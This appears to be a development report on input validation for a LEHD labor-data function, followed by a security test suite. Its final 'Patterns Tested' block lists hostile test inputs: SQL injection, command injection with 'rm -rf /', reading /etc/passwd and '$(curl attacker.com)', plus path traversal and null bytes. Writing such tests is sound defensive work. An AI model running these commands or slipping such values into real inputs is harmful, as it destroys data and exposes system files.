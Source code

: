 ```python
# Validate state code
if not state or not isinstance(state, str):
    raise ValueError(f"Invalid state code: '{state}'. Must be non-empty string.")

state = state.strip().lower()
if not state or len(state) != 2:
    raise ValueError(f"Invalid state code: '{state}'. Must be 2-letter state abbreviation.")

# Validate year type
if not isinstance(year, int):
    raise TypeError(f"Invalid year type: {type(year).__name__}. Year must be an integer.")

# Validate year range (LEHD LODES data available 2002-2021)
if year < 2002 or year > 2021:
    raise ValueError(f"Invalid year: {year}. LEHD data is available from 2002-2021.")
```

**Result**: ✅ All 3 tests now pass with proper validation errors

### 2. Created Comprehensive Security Test Suite (22 Tests) ✨ NEW

Created `/tests/security/labor/test_lehd_security.py` with **6 categories** of security tests:

#### **Category 1: Input Validation (6 tests)**
- `test_empty_state_code_rejected` - Rejects empty state codes
- `test_whitespace_only_state_code_rejected` - Rejects whitespace-only codes
- `test_invalid_state_code_length_rejected` - Enforces 2-letter format
- `test_year_type_validation` - Enforces integer type for year
- `test_year_range_validation` - Enforces 2002-2021 range
- Status: ✅ All 6 passing

#### **Category 2: Injection Attack Prevention (4 tests)**
- `test_sql_injection_in_state_code` - Blocks SQL injection attempts
- `test_command_injection_in_state_code` - Blocks command injection
- `test_null_byte_injection` - Handles null bytes safely
- `test_path_traversal_in_state_code` - Blocks path traversal attacks
- Status: ✅ All 4 passing

**Patterns Tested**:
```python
# SQL injection
"'; DROP TABLE states; --"
"' OR '1'='1"

# Command injection
"ca; rm -rf /"
"ca && cat /etc/passwd"
"$(curl attacker.com)"

# Path traversal
"../../../etc/passwd"
"..\\..\\..\\windows\\system32"

# Null bytes
"ca\x00malicious"
```
